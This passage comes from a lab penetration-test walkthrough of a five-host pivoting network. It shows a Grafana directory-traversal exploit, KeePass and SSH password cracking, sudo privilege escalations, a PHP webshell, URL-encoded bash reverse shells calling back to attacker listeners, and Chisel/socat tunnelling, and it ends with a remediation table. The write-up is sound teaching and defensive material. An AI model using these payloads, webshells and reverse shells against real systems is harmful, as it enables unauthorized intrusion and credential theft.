

The service is a Grafana login panel.



The page footer discloses the Grafana version, which is enough to search for known vulnerabilities.


### 4.2 Grafana directory traversal

`searchsploit` is used to match the disclosed version against public exploits.

```bash
searchsploit grafana
```

The relevant result is a directory traversal / arbitrary file read vulnerability in Grafana.



The exploit is copied into the working directory:

```bash
searchsploit -m multiple/webapps/50581.py
```

`-m` mirrors the exploit file locally, which makes it easier to inspect and modify.



The script works by enumerating Grafana plugin names. Grafana serves static plugin assets under `/public/plugins/<plugin>/...`. If a plugin name is valid, the static file handler resolves the path and the script can use `../` sequences to escape the intended plugin directory. A vulnerable Grafana version fails to canonicalize the path correctly and returns arbitrary files.

The vulnerable request pattern is:

```text
GET http://20.20.20.3:3000/public/plugins/<PLUGIN_NAME>/../../../../../../etc/passwd
```

The plugin name is important: if the first path component does not resolve to an existing plugin, the request is rejected before the traversal is processed. That is why the exploit contains a list of common plugin names and effectively brute-forces the first segment.

The exploit is executed through proxychains:

```bash
proxychains python3 50581.py -H http://20.20.20.3:3000
```

It reads `/etc/passwd` and confirms the LFI.



The file contains a user named `freddy`.

### 4.3 Anonymous FTP and KeePass database

The FTP service is tested for anonymous access:

```text
User: anonymous
Password: anonymous
```



Anonymous login is enabled. The directory contains a KeePass database, which is downloaded for offline analysis.

```bash
ftp -p 20.20.20.3
ls
get <database>.kdbx
bye
```



The database hash is extracted and passed to Hashcat:

```bash
keepass2john <database>.kdbx > keepass.hash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt
```

`keepass2john` extracts a Hashcat-compatible hash from the KeePass database so the master password can be attacked offline. Mode `13400` covers KeePass 1 and KeePass 2 databases.



Hashcat initially rejects the hash because the format does not match the expected KeePass structure.



The database is assumed to be KeePass KDBX v4, and the hash is re-extracted/reformatted to match that version. After the format adjustment, Hashcat accepts the input.





The cracking job is left running in the background, but it is ultimately not needed: a more direct credential source is found in the web root.

### 4.4 Custom proxied fuzzing with `proxfuzz.py`

Generic fuzzers such as `ffuf`, `gobuster`, and DirBuster open many parallel connections. When every request must cross a SOCKS tunnel, connection setup and proxychains overhead make them very slow and can exhaust the Chisel listener. A small custom fuzzer was written specifically for this scenario.

The tool:

- accepts a base URL, including an LFI-prefixed path;
- appends each wordlist entry to that base;
- sends the requests through proxychains with tuned timeouts and concurrency;
- filters results by status code and response size.

The LFI endpoint from the Grafana exploit is reused:

```text
/public/plugins/<PLUGIN_NAME>/<file_path>
```

Any valid plugin name works, followed by the traversal and the target file. Web roots are commonly located at `/var/www/html`, so that directory is used as the base. The hypothesis is validated by reading `index.html` through the LFI.



The tool is downloaded from the repository:

```text
https://github.com/Kevon99/Hacking-tools/blob/master/DoggyProxy/proxfuzz.py
```

It is executed with the LFI base URL and a wordlist:

```bash
proxychains python3 proxfuzz.py \
  -url http://20.20.20.3:3000/public/plugins/welcome/../../../../../../../var/www/html/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

The exact number of `../` segments depends on the depth of the plugin directory; the goal is simply to land in `/var/www/html/`.



The fuzzing finds `maintenance.html`.



Reading the file through the LFI reveals that credentials are stored in `/tmp/pass.txt`.



The file is read through the same traversal:

```text
http://20.20.20.3:3000/public/plugins/welcome/../../../../../../../tmp/pass.txt
```

It contains a password.

### 4.5 SSH as `freddy` and root via `maintenance.py`

The password from `/tmp/pass.txt` is used with the username discovered in `/etc/passwd`:

```bash
proxychains -q ssh freddy@20.20.20.3
```



Sudo permissions are enumerated:

```bash
sudo -l
```



The output shows that `freddy` can run `/usr/bin/python3 /opt/maintenance.py` as root.



The critical issue is that `freddy` can modify the script even though it is executed as root. This is a classic writable-script privilege escalation.

The script is replaced with a minimal payload:

```bash
nano /opt/maintenance.py
```

```python
import os
os.system("/bin/bash")
```

It is then executed through sudo:

```bash
sudo python3 /opt/maintenance.py
```

Because `sudo` runs `python3` as root, the `os.system("/bin/bash")` call also runs as root. The result is a root shell.



The host's interfaces confirm the next pivot:

```bash
hostname -I
```

`hostname -I` prints every configured IPv4 address. It returns `20.20.20.3` and `30.30.30.2`, which identifies Host 2 as a dual-homed pivot.


### 4.6 Pivot 2 — relay into `30.30.30.0/24` (`2222`)

Host 2 has an interface on `30.30.30.0/24` (`30.30.30.2`) and can reach Host 1 at `20.20.20.2`, but it cannot reach the attacker directly. The Chisel server is only reachable from Host 1. The solution is a `socat` relay on Host 1 that exposes the attacker's Chisel server to the `20.20.20.0/24` network.

First, a static `socat` binary is needed because the target lacks the required shared libraries.


A static build is downloaded from:

```text
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
```

It is transferred to Host 1:

```bash
scp socat manchi@10.10.10.2:/tmp
```


The binary is verified:

```bash
chmod +x /tmp/socat
/tmp/socat -V
```


On Host 1, the relay listens on TCP/9999 and forwards every connection to the attacker's Chisel server on TCP/4444:

```bash
./socat TCP-LISTEN:9999,fork TCP:192.168.122.50:4444
```

- `TCP-LISTEN:9999` binds the relay to port 9999.
- `fork` creates a child process for each incoming connection, which is required for concurrent SOCKS traffic.
- `TCP:192.168.122.50:4444` is the upstream destination.

Now Host 2 can reach the Chisel server through Host 1. Chisel is transferred to Host 2 over the existing SOCKS proxy:

```bash
proxychains -q scp chisel freddy@20.20.20.3:/tmp
```


On Host 2, the binary is moved into place and the Chisel client connects to Host 1's second interface, requesting a reverse SOCKS proxy:

```bash
proxychains -q ssh freddy@20.20.20.3
cd /tmp
./chisel client 20.20.20.2:9999 R:2222:socks
```

The traffic path is:

```text
Host 2 chisel client
   -> 20.20.20.2:9999 (Host 1 socat)
   -> 192.168.122.50:4444 (attacker chisel server)
   -> reverse SOCKS listener 127.0.0.1:2222 on the attacker
```


The attacker now has a second Chisel connection and a SOCKS listener on `127.0.0.1:2222`.


The new proxy is added to proxychains:

```bash
echo "socks5 127.0.0.1 2222" | sudo tee -a /etc/proxychains4.conf
```

`dynamic_chain` is enabled so proxychains does not abort when an older proxy entry is no longer alive. In practice, only the proxy for the network currently being targeted is used. Existing proxy entries can be disabled by commenting them out with `#`, and keeping one proxychains profile per pivot is a cleaner alternative for repeatable engagements.


Pivot summary:

| Proxy | Created by | Path to Chisel server | Network reached |
|---|---|---|---|
| `127.0.0.1:1080` | Host 1 | Host 1 → attacker:4444 | `20.20.20.0/24` |
| `127.0.0.1:2222` | Host 2 | Host 2 → Host 1:9999 → attacker:4444 | `30.30.30.0/24` |

---

## 5. Host 3 — `30.30.30.3`

### 5.1 Discovery and port scan

The new network is enumerated through the `2222` proxy:

```bash
proxychains -q python3 proxydiscover.py -net 30.30.30.0/24
```

The active host is `30.30.30.3`.


A top-1000 TCP connect scan is performed:

```bash
proxychains -q nmap -sT -Pn --top-ports 1000 --min-rate 5000 -n 30.30.30.3 -oN allPorts_machine_3
```

- `-sT` is required because SOCKS5 only supports TCP connect operations.
- `--top-ports 1000` scans the most common ports, which is faster than a full scan through a tunnel.
- `--min-rate` is mostly cosmetic here; the proxy is the real bottleneck.


TCP/80 is open. FoxyProxy is switched to `127.0.0.1:2222` to browse the service.


The web server is another default Apache page.


Content discovery is performed with the proxied fuzzer:

```bash
proxychains -q python3 proxfuzz.py -url http://30.30.30.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


### 5.2 `secret.php` and SSH access as `mario`

The fuzzing finds `secret.php`.


The page taunts the reader by claiming that the web cannot be hacked, but it leaks the username `mario`. That is enough for a targeted SSH password attack:

```bash
proxychains -q hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://30.30.30.3
```


Hydra recovers the password, and the host is accessed over SSH:

```bash
proxychains -q ssh mario@30.30.30.3
```

Sudo permissions are checked:

```bash
sudo -l
```


The output shows that `mario` can run `vim` as root. Vim is a full editor with shell escape functionality, so it can be used to break out to a root shell:

```bash
sudo vim -c ':!bash'
```

- `-c` executes an Ex command after Vim starts.
- `:!bash` runs `bash` as a child process of Vim.
- Because Vim is running as root through `sudo`, the spawned shell is also root.


The host's interfaces confirm the next network:

```bash
hostname -I
```

It returns `30.30.30.3` and `40.40.40.2`.


### 5.3 Pivot 3 — relay into `40.40.40.0/24` (`1212`)

The same relay pattern is extended by one hop. Host 2 already has `socat`; it now listens on TCP/1234 and forwards to Host 1's relay on TCP/9999.

On Host 2, a root shell is obtained again through the writable maintenance script, and the relay is started:

```bash
proxychains -q ssh freddy@20.20.20.3
cd /tmp
sudo python3 /opt/maintenance.py
./socat TCP-LISTEN:1234,fork TCP:20.20.20.2:9999
```


Now Host 3 can reach the Chisel server by connecting to Host 2's second interface. Chisel and `socat` are transferred to Host 3:

```bash
proxychains -q scp chisel mario@30.30.30.3:/tmp
proxychains -q scp socat mario@30.30.30.3:/tmp
```


On Host 3, the Chisel client connects to `30.30.30.2:1234` and requests a reverse SOCKS proxy on port `1212`:

```bash
proxychains -q ssh mario@30.30.30.3
cd /tmp
./chisel client 30.30.30.2:1234 R:1212:socks
```

The resulting chain is:

```text
Host 3 chisel client
   -> 30.30.30.2:1234 (Host 2 socat)
   -> 20.20.20.2:9999 (Host 1 socat)
   -> 192.168.122.50:4444 (attacker chisel server)
   -> reverse SOCKS listener 127.0.0.1:1212 on the attacker
```


The attacker now has a third Chisel connection.


The `1212` proxy is added to proxychains and used for the `40.40.40.0/24` scans. At this point the pivot table is:

| Proxy | Created by | Path to Chisel server | Network reached |
|---|---|---|---|
| `127.0.0.1:1080` | Host 1 | Host 1 → attacker:4444 | `20.20.20.0/24` |
| `127.0.0.1:2222` | Host 2 | Host 2 → Host 1:9999 → attacker:4444 | `30.30.30.0/24` |
| `127.0.0.1:1212` | Host 3 | Host 3 → Host 2:1234 → Host 1:9999 → attacker:4444 | `40.40.40.0/24` |

---

## 6. Host 4 — `40.40.40.3`

### 6.1 Discovery and port scan

The network is enumerated through the `1212` proxy:

```bash
proxychains -q python3 proxydiscover.py -net 40.40.40.0/24
```

The active host is `40.40.40.3`.


A top-1000 TCP connect scan is performed:

```bash
proxychains -q nmap -sT --top-ports 1000 -n -Pn -vvv 40.40.40.3
```


TCP/80 is open. FoxyProxy is switched to `127.0.0.1:1212`.


The web application looks different from the previous default pages.


The page provides a file upload form. The first test is whether PHP files are accepted.


The upload succeeds. The next problem is locating where the uploaded files are stored.

### 6.2 Uploading a PHP webshell

Content discovery is repeated against the upload host:

```bash
proxychains -q python3 proxfuzz.py -url http://40.40.40.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


The fuzzing identifies an `/uploads` directory.


A minimal PHP webshell is created locally:

```bash
touch shell.php
nano shell.php
```

```php
<?php
system($_GET["cmd"]);
?>
```


The file is uploaded through the web form. Once stored under `/uploads/`, it can be executed with the `cmd` parameter:

```text
http://40.40.40.3/uploads/shell.php?cmd=id
```


`/etc/passwd` is inspected through the webshell. The host does not contain regular interactive users, so local account abuse is not an option.


### 6.3 Reverse shell through the pivot

Host 4 cannot reach the attacker directly; it can only reach `40.40.40.2` (Host 3). The solution is a second Chisel forward on Host 3 that listens locally and forwards traffic through the existing Chisel chain to a Netcat listener on the attacker.

A second Chisel client process is started on Host 3:

```bash
./chisel client 30.30.30.2:1234 4444:192.168.122.50:6769
```

This is a non-reverse forward:

- Host 3 listens on `0.0.0.0:4444`.
- Traffic received on that port is sent through the Chisel connection to the Chisel server.
- The server connects to `192.168.122.50:6769`, where Netcat is waiting on the attacker.

On the attacker:

```bash
nc -nvlp 6769
```

The webshell is then used to execute a URL-encoded Bash TCP reverse shell:

```text
http://40.40.40.3/uploads/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/40.40.40.2/4444%200%3E%261%27
```

Decoded, the command is:

```bash
bash -c 'bash -i >& /dev/tcp/40.40.40.2/4444 0>&1'
```

The URL encoding is necessary because the payload contains spaces, quotes, `>`, `&`, and `/`, all of which would be mangled or rejected in a raw query string.

The path is:

```text
Host 4 (40.40.40.3)
   -> 40.40.40.2:4444 (Host 3 chisel local listener)
   -> chisel chain: Host 3 -> Host 2:1234 -> Host 1:9999 -> attacker:4444
   -> attacker connects to 192.168.122.50:6769 (Netcat)
```


The reverse shell arrives.


### 6.4 Privilege escalation to root via `sudo env`

Sudo permissions are checked again:

```bash
sudo -l
```


The output shows that `/usr/bin/env` can be executed as root. Like any interpreter or command launcher, `env` can run an arbitrary program:

```bash
sudo env /bin/sh
```

A pseudo-terminal is then allocated with `script`:

```bash
script 2>/dev/null -c bash
```


The session is now a full root shell.


The host's interfaces confirm the final network:

```bash
hostname -I
```

It returns `40.40.40.3` and `50.50.50.2`.


### 6.5 Pivot 4 — relay into `50.50.50.0/24` (`9919`)

Host 3 already has Chisel and `socat`. It serves the Chisel binary over HTTP so Host 4 can download it; the server listens on TCP/10 in the `/tmp` directory, which contains the transferred binaries:

```bash
cd /tmp
python3 -m http.server 10
```


On Host 4:

```bash
wget http://40.40.40.2:10/chisel
chmod +x chisel
```


Host 3 starts another `socat` relay on TCP/1010, forwarding to Host 2's relay on TCP/1234:

```bash
./socat TCP-LISTEN:1010,fork TCP:30.30.30.2:1234
```


On Host 4, the Chisel client connects to Host 3 and requests a reverse SOCKS proxy on port `9919`:

```bash
./chisel client 40.40.40.2:1010 R:9919:socks
```

The complete chain is:

```text
Host 4 chisel client
   -> 40.40.40.2:1010 (Host 3 socat)
   -> 30.30.30.2:1234 (Host 2 socat)
   -> 20.20.20.2:9999 (Host 1 socat)
   -> 192.168.122.50:4444 (attacker chisel server)
   -> reverse SOCKS listener 127.0.0.1:9919 on the attacker
```


A fourth proxy is now available on `127.0.0.1:9919`.


It is added to proxychains:

```bash
nano /etc/proxychains4.conf
```


The final pivot table is:

| Proxy | Created by | Path to Chisel server | Network reached |
|---|---|---|---|
| `127.0.0.1:1080` | Host 1 | Host 1 → attacker:4444 | `20.20.20.0/24` |
| `127.0.0.1:2222` | Host 2 | Host 2 → Host 1:9999 → attacker:4444 | `30.30.30.0/24` |
| `127.0.0.1:1212` | Host 3 | Host 3 → Host 2:1234 → Host 1:9999 → attacker:4444 | `40.40.40.0/24` |
| `127.0.0.1:9919` | Host 4 | Host 4 → Host 3:1010 → Host 2:1234 → Host 1:9999 → attacker:4444 | `50.50.50.0/24` |

---

## 7. Host 5 — `50.50.50.3`

### 7.1 Discovery and port scan

The final network is enumerated through the `9919` proxy:

```bash
proxychains -q python3 proxydiscover.py -net 50.50.50.0/24
```

The active host is `50.50.50.3`.


A top-1000 TCP connect scan is performed:

```bash
proxychains -q nmap -sT -Pn --top-ports 1000 --min-rate 5000 -n 50.50.50.3 -oN allPorts_machine_5 -v
```


TCP/80 is open. FoxyProxy is switched to `127.0.0.1:9919`.


The page looks different from the previous hosts.


### 7.2 `shell.php`, `warning.html`, and the forgotten parameter

Content discovery is performed again:

```bash
proxychains -q python3 proxfuzz.py -url http://50.50.50.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Two interesting files are found:

- `/shell.php`
- `/warning.html`

`warning.html` states that the host was attacked by another hacker, but the webshell uses a parameter that the previous attacker no longer remembers.


The same proxied fuzzer is used in parameter-discovery mode against `shell.php`. It identifies the parameter name `parameter`.


The webshell is functional:

```text
http://50.50.50.3/shell.php?parameter=id
```


### 7.3 Reverse shell from Host 5

A fresh Host 4 session is opened first; the earlier session is not reused for the new forward. On Host 3, a second Chisel client process is started with the same local-forward pattern used before:

```bash
proxychains -q ssh mario@30.30.30.3
./chisel client 30.30.30.2:1234 4444:192.168.122.50:6769
```


The attacker listens with Netcat:

```bash
nc -nvlp 6769
```


Host 4's upload webshell is triggered to obtain a new root-capable session:

```text
http://40.40.40.3/uploads/shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/40.40.40.2/4444%200%3E%261%27
```


Root is obtained on Host 4 again:

```bash
sudo env /bin/bash
export TERM=xterm
script 2>/dev/null -c bash
```


A second Chisel client process is then started on Host 4. It listens on TCP/3131 and sends traffic through the existing chain to the attacker on TCP/7777:

```bash
./chisel client 40.40.40.2:1010 3131:192.168.122.50:7777
```


The attacker listens:

```bash
nc -nvlp 7777
```


The Host 5 webshell is used to connect back to Host 4's second interface:

```text
http://50.50.50.3/shell.php?parameter=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/50.50.50.2/3131%200%3E%261%27
```

The path is:

```text
Host 5 (50.50.50.3)
   -> 50.50.50.2:3131 (Host 4 chisel local listener)
   -> chisel chain: Host 4 -> Host 3:1010 -> Host 2:1234 -> Host 1:9999 -> attacker:4444
   -> attacker connects to 192.168.122.50:7777 (Netcat)
```

The shell from Host 5 is received.


### 7.4 Root via `/tmp/.secret.txt`

`sudo -l` does not provide a useful path on this host:

```bash
sudo -l
```

A review of world-readable files in `/tmp` reveals a hidden credential file:

```bash
ls -la /tmp
cat /tmp/.secret.txt
```


The file contains the root password.


The root account is accessed with `su`:

```bash
su root
```


All five hosts are now compromised, with `root` on `50.50.50.3`.

---

## 8. Full attack path


```text
10.10.10.2  --LFI / sudo php-->  root
20.20.20.3  --Grafana / FTP / pass.txt / maintenance.py-->  root
30.30.30.3  --secret.php / Hydra / sudo vim-->  root
40.40.40.3  --upload / sudo env-->  root
50.50.50.3  --webshell parameter / .secret.txt-->  root
```

---

## 9. Findings and remediation

| ID | Host | Finding | Impact | Remediation |
|---|---|---|---|---|
| F1 | Host 1 | LFI in `/shop` through the `archivo` parameter | Arbitrary file read; credential discovery | Use an allowlist of includable files, avoid user-controlled include paths, disable `allow_url_include`, and set `open_basedir` |
| F2 | Host 1 | Weak local password for `seller` | Local privilege transition | Enforce strong passwords, account lockout, and MFA where possible |
| F3 | Host 1 | `sudo /usr/bin/php` allowed | Direct root command execution | Remove unnecessary sudo rules; never allow interpreters to run as root |
| F4 | Host 2 | Grafana directory traversal / arbitrary file read | Disclosure of local files and credentials | Patch Grafana, restrict network access to the monitoring interface, and add a WAF rule for traversal |
| F5 | Host 2 | Anonymous FTP enabled | Unauthenticated data disclosure | Disable anonymous access, use SFTP/FTPS, and apply least privilege |
| F6 | Host 2 | KeePass database exposed over FTP | Offline password cracking | Store secrets outside public services, use a strong master password, and rotate credentials |
| F7 | Host 2 | Writable `/opt/maintenance.py` executed by root via sudo | Root command execution | Make the script root-owned and non-writable, and avoid sudo rules that execute user-writable files |
| F8 | Host 3 | Username disclosure in `secret.php` plus weak SSH password | Remote shell access | Remove informational leaks, enforce strong passwords, use key-based authentication, and deploy fail2ban |
